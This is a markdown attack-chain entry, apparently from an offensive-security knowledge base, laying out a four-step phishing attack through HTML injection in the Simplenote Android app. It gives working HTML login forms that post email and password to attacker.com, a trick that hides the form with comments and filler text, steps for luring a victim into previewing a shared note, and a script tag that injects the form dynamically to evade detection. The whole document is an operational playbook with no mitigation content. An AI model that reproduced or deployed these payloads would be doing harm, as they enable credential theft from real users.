

---
tags:
  - phishing
  - html-injection
  - android
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
commands: []
platforms:
  - Android
complexity: medium
procedures:
  - '[[procedures/Create-Malicious-Note-Containing-HTML-Form]]'
  - '[[procedures/Obfuscate-HTML-Form-in-Note]]'
  - '[[procedures/Trigger-Phishing-via-Note-Preview]]'
  - '[[procedures/Enhance-Phishing-with-JavaScript-Dynamic-Form]]'
step_count: 4
techniques:
  - '[[Phishing]]'
description: >-
  Multi-stage phishing attack exploiting HTML injection in Simplenote Android
  app version 1.5.6 to embed malicious forms in notes for credential theft.
skill_level: intermediate
impact_level: high
id: 8d02138e-547f-4e1d-bbc9-c93519161242
created_at: '2025-12-14T17:24:42.453Z'
updated_at: '2025-12-14T17:24:42.453Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Phishing]]'
---
# Phishing-via-HTML-Injection-in-Simplenote-Android-App

Multi-stage attack chain demonstrating a phishing workflow via unsanitized HTML in Simplenote notes on Android.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Simplenote Android app (version 1.5.6 or vulnerable)
- Text editor for crafting HTML

### Target Environment

- Android device with Simplenote app installed
- Ability to share notes via link or export
- Attacker-controlled server for form submission endpoint

### Initial Access Requirements

- Access to create and share notes in Simplenote
- Victim must open and preview the shared note
- No prior credentials needed; social engineering for note sharing

## Detailed Attack Procedures

### Step 1: Create Malicious Note
procedure: [[procedures/Create-Malicious-Note-Containing-HTML-Form]]

**Objective**: Embed a functional HTML form in a Simplenote note to capture user input.

**Instructions**: Open Simplenote on Android, create a new note, and insert raw HTML for a login form pointing to an attacker server. Style it to mimic a legitimate login page.

```html
<form action="https://attacker.com/login.php" method="POST">
  <input type="email" name="email" placeholder="Email">
  <input type="password" name="password" placeholder="Password">
  <button type="submit">Login</button>
</form>
```

**Expected Output**: Note saves with HTML intact; preview renders the form.

**Success Indicators**:
- Form visible and interactive in preview mode
- No sanitization errors

### Step 2: Obfuscate Form
procedure: [[procedures/Obfuscate-HTML-Form-in-Note]]

**Objective**: Hide the malicious HTML to evade detection until preview.

**Instructions**: Surround the form HTML with comments and filler text in the note editor. Comments strip away in preview, revealing only the form.

```html
<!-- Filler text: Lorem ipsum dolor sit amet -->
<form action="https://attacker.com/login.php" method="POST">
  <input type="email" name="email" placeholder="Email">
  <input type="password" name="password" placeholder="Password">
  <button type="submit">Login</button>
</form>
<!-- More lorem ipsum -->
```

**Expected Output**: Editor shows obfuscated text; preview shows clean form.

**Success Indicators**:
- Form hidden in edit mode
- Form renders cleanly in preview

### Step 3: Victim Interaction
procedure: [[procedures/Trigger-Phishing-via-Note-Preview]]

**Objective**: Trick victim into submitting credentials via the rendered form.

**Instructions**: Share the note link with the victim via email or chat. Victim opens in Simplenote Android, switches to preview, interacts with form, and submits data to attacker server.

**Expected Output**: POST request received on attacker server with victim credentials.

**Success Indicators**:
- Victim views note in preview
- Form submission logs on server

### Step 4: Enhance with JavaScript
procedure: [[procedures/Enhance-Phishing-with-JavaScript-Dynamic-Form]]

**Objective**: Dynamically generate the form using JavaScript for better evasion.

**Instructions**: Replace static HTML with JavaScript that injects the form on load. Insert into note as script tag.

```html
<script>
document.body.innerHTML += '<form action="https://attacker.com/login.php" method="POST"><input type="email" name="email"><input type="password" name="password"><button>Login</button></form>';
</script>
```

**Expected Output**: Form appears dynamically in preview without static HTML traces.

**Success Indicators**:
- JavaScript executes in preview
- Form functional and harder to detect

## Attack Chain Summary

### Key Achievements

1. Successful HTML injection bypassing sanitization
2. Obfuscated phishing form delivery via shared note
3. Credential capture from victim interaction
4. Enhanced evasion using dynamic JavaScript

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Phishing]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01*
